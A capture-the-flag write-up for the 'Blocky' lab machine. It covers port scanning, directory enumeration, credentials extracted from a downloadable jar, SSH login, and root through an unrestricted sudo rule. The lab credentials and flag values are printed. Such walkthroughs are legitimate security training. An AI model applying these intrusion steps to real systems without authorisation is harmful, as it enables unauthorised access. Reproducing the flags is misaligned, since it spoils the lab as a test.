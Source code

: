 # blocky

## Blocky

Blocky was a easy linux machine that involved enumerating to find some files which gave creds so an sql database which then gave more creds needed for ssh. For root it was a really simple priv esc but from a common technique.

> Skills involve in this box:
>
> * enumeration
> * using databases
> * privelage escalation

## USER

> Nmap

```bash
PORT     STATE  SERVICE VERSION
21/tcp   open   ftp     ProFTPD 1.3.5a
22/tcp   open   ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d6:2b:99:b4:d5:e7:53:ce:2b:fc:b5:d7:9d:79:fb:a2 (RSA)
|   256 5d:7f:38:95:70:c9:be:ac:67:a0:1e:86:e7:97:84:03 (ECDSA)
|_  256 09:d5:c2:04:95:1a:90:ef:87:56:25:97:df:83:70:67 (ED25519)
80/tcp   open   http    Apache httpd 2.4.18 ((Ubuntu))
|_http-generator: WordPress 4.8
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: BlockyCraft &#8211; Under Construction!
8192/tcp closed sophos
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

Nmap reveals port 80 being open as well as ssh open as well.

We check out the website where there doesnt seem to be much so we will further enumerate with gobuster:

```bash
kali@kali:~$ gobuster dir -u http://10.10.10.37/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.37/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s                                                                                           
===============================================================                                                   
2020/06/13 05:46:10 Starting gobuster                                                                             
===============================================================                                                   
/wiki (Status: 301)
/wp-content (Status: 301)
/plugins (Status: 301)
/wp-includes (Status: 301)
/javascript (Status: 301)
/wp-admin (Status: 301)
/phpmyadmin (Status: 301)
/server-status (Status: 403)
```

We checkout the `/plugins` direcotry in the web browser and it takes us to a page where it allows us to downlaod some files.

`BlockCore.jar` is the file we are going to download and take a look at.

we unpack it and read the `BlockyCore.class` file. It ahs some credentials in it which work with ssh as the user notch.

So we have the credentials `notch:8YsqfCTnvxAUeduzjNSXe22` - this is one method of getting user i will explain the second method later.

```bash
kali@kali:~$ ssh notch@10.10.10.37
The authenticity of host '10.10.10.37 (10.10.10.37)' can't be established.                                         
ECDSA key fingerprint is SHA256:lg0igJ5ScjVO6jNwCH/OmEjdeO2+fx+MQhV/ne2i900.                                       
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes                                           
Warning: Permanently added '10.10.10.37' (ECDSA) to the list of known hosts.                                       
notch@10.10.10.37's password: 
Welcome to Ubuntu 16.04.2 LTS (GNU/Linux 4.4.0-62-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

7 packages can be updated.
7 updates are security updates.


Last login: Sun Dec 24 09:34:35 2017
notch@Blocky:~$ ls
minecraft  user.txt
notch@Blocky:~$ cat user.txt
59fee0977fb60b8a0bc6e41e751f3cd5notch@Blocky:~$
```

## ROOT

We run `sudo -l` to see what we can run as root and it tells us we can run everything as root so we simply just `su root` and read the root flag.

```bash
notch@Blocky:~$ sudo -l
[sudo] password for notch: 
Matching Defaults entries for notch on Blocky:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User notch may run the following commands on Blocky:
    (ALL : ALL) ALL
notch@Blocky:~$ sudo su 
root@Blocky:/home/notch# cat /root/root.txt
0a9694a5b4d272c694679f7860f1cd5froot@Blocky:/home/notch#
```

The second method is when unpacking there is a file called `BlockCore.jad` whcih contains sql creds We find that `/phpmyadmin` is available so we go to that and login with the creds it gives us in the file.

We then find the password for the user notch in the database and we simply ssh from there.

Thanks for reading hope you enjoyed.

